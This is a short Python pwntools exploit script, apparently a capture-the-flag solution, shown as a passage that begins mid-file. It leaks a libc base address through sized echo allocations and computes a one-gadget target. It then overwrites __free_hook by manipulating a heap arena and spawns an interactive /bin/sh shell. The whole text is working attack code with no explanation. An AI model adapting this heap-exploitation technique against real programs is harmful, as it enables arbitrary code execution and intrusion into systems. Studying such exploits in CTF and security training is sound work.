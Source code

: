 ```python
    p.sendafter(a,b)

def sla(a,b):
    p.sendlineafter(a,b)

def echo(size,content):
    p.sendline(str(size))
    sleep(0.3)
    p.send(content)
    k=p.recvline()
    return k

def hack():
    echo(0x38,'A'*8)
    echo(0x28,'A'*8)
    echo(0x48,'A'*8)
    echo(0x7f,'A'*8)    
    k=echo(0x28,'A'*8)    
    libcaddr=u64(k[8:16])
    libc.address=libcaddr-0x3c1b58
    print("Libc base-->"+hex(libc.address))
    p.sendline(str(libcaddr-1))
    sleep(0.3)
    echo(0x38,'A'*8)    
    p.clean()
    echo(0x68,'A'*8)    
    echo(0x48,'A'*8)    
    echo(0x7f,'A'*8)    
    k=echo(0x68,'A'*8)    
    libcaddr=u64(k[8:16])
    old=libcaddr
    print("Another arena-->"+hex(old))
    raw_input()

    target=libc.address+0xf2519+0x10+1 # onegadget
    libcaddr=libcaddr-0x78+0xa00
    off=libc.symbols['__free_hook']-8-0x10-libcaddr
    echo(0xf0,p64(off+target)*(0xf0/8))
    p.sendline(str(old+1))
    sleep(1)
    p.sendline()
    raw_input()
    echo(off,'AAAA')
    p.recvline()
    p.clean()
    echo(0x10,'/bin/sh\x00')
    p.interactive()

hack()

```
